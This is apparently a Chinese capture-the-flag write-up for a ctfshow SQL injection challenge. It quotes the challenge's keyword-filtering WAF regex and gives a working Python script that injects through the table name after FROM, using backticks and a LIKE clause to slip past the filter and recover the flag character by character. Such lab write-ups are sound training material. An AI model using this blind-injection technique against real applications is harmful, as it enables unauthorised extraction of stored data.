

# 知识点
注入位置是from后表名<br />且返回值wei用户表的记录总数
# 思路
```plsql
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```
```plsql
//返回用户表的记录总数
      $user_count = 0;
      
```
我可以通控制like后的字符串来进行盲注
```plsql
import requests

str = '0123456789abcdef-}'
url = 'http://27493a9e-bc79-4f61-9d92-ad9665f75f32.challenge.ctf.show/select-waf.php'
flag = 'ctfshow{'
for l in range(0, 38):
    for i in str:
        data = {
            'tableName': f"`ctfshow_user`where`pass`like'%{flag+i}%'"
        }
        r = requests.post(url=url, data=data).text
        if r[2547:2548] == '1':
            flag += i
            print(flag)
            break
```

